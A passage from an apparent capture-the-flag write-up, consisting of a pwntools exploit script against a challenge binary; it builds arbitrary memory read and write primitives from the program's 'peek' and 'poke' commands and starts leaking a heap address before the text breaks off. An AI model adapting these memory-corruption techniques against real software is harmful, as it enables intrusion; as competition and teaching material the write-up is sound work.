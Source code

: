 here's the full exploit:

{% code title="exploit.py" %}
```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
libc = './libc-2.27.so'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h"]
host, port = '0.cloud.chals.io', 12348

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
# break *main+99
# break *main+419
# break *main+862
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def read(idx) -> str:
    ret = []

    for i in range(8):
        io.sendlineafter(b'command:', f'peek {idx+i}'.encode())
        io.recvline()
        res = int(io.recvline().strip())
        if res < 0:
            res = struct.pack('>l', res)[-1]
        res = hex(res)
        res = res.replace('0x', '').replace('-', '')
        if len(res) == 1:
            res = '0' + res
        ret.append(res)
    
    return ''.join([x[::-1] for x in ret])[::-1]

def write(idx, val):
    for i in range(8):
        io.sendlineafter(b'command:', f'poke {idx+i} {val[i]}'.encode())

def exploit():
    global io
    io = initialize()

    io.sendlineafter(b'string:', cyclic(0x20))
    heap = int(read(0x58), 16) + 0x11e70 + 0x10

```